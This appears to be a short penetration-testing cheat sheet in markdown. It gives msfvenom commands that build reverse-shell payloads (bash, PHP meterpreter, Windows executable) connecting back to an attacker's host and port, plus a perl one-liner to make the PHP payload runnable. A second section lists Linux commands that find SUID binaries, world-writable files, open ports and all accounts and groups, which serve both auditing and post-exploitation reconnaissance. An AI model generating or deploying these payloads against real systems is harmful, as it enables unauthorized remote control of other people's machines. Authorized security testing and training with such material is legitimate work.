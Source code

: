 ### MSF Reverse Bash Shell
{% highlight bash %}
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
{% endhighlight %}

### MSF Reverse PHP Shell
{% highlight bash %}
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php 
{% endhighlight %}

### MSF Reverse Win Bin
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
{% endhighlight %}

### Linux Security Commands
{% highlight bash %}
# find programs with a set uid bit
find / -uid 0 -perm -4000
 
# find things that are world writable
find / -perm -o=w
 
# find names with dots and spaces, there shouldn’t be any
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print
 
# find files that are not owned by anyone
find / -nouser
 
# look for files that are unlinked
lsof +L1
 
# get information about procceses with open ports
lsof -i

# look for weird things in arp
arp -a
 
# look at all accounts including AD
getent passwd
 
# look at all groups and membership including AD
getent group
 